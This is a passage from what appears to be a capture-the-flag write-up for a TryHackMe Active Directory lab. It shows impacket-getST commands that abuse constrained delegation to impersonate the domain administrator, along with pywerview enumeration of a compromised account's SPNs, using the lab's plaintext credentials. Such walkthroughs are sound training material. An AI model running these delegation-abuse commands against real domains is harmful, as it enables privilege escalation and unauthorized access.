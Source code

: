 Lets now exploit this **AllowedToDelegate** privilege.

```bash
impacket-getST -spn 'HTTP/DC.COOCTUS.CORP' -impersonate 'administrator' cooctus.corp/'password-reset':'resetpassword'
```

![image.png](/assets/images/CroccCrew_THM/image%2025.png)

It was failing due to some kerberos errors.

Now lets enumerate this **password-reset** user more for SPNs.

We are going to use the **Pywerview** a utility for linux to use powerview through linux.

```bash
/opt/pywerview/pywerview.py get-netuser -u 'password-reset' -p 'resetpassword' -t dc.cooctus.corp -d cooctus.corp --username 'password-reset'
```

![image.png](/assets/images/CroccCrew_THM/image%2026.png)
